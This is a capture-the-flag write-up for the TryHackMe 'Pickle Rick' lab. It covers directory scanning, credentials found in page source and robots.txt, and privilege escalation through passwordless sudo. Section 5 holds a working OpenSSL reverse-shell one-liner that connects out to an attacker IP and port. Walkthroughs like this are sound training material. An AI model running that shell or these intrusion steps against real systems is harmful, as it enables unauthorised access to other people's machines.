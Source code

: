 # Pickle Rick

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

Tools Used:

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat


---

### 1. Nmap Scan

    We'll scan the IP to see what services are running, first, let's visit the website.

    ![](img/picklerick01.png)

### 2. Website 

    After visiting the website, we can't see anything that gives out any clues or ingridient.

    After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

    ![](img/picklerick02.png)

    After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

    ![](img/picklerick03.png)

### 3. gobuster & dirbuster

    I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.

    
    ![](img/picklerick04.png)

    The `robots.txt` file has a wierd text, i'll save it for later maybe: 

    ![](img/picklerick05.png)

    After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

    ![](img/picklerick06.png)

### 4. Web login

    We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

    ![](img/picklerick07.png)

    And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

    ![](img/picklerick08.png)

### 5. Reverse Shell access

    Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
    `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

    ![](img/picklerick09.png)

    As we can see we've got access to the machine:

    ![](img/picklerick10.png)

### 6. First Flag

    We can see that there is a .txt file, if we cat that we can see the first flag:

    ![](img/picklerick11.png)

### 7. Second Flag

    After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

    ![](img/picklerick12.png)

### 8. Third Flag

    Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:

    ![](img/picklerick13.png)

    As we can see, we've got permissions on all commands without password.

    So let's use sudo to see the contents of user root home folder, and we can see the third flag:

    ![](img/picklerick14.png)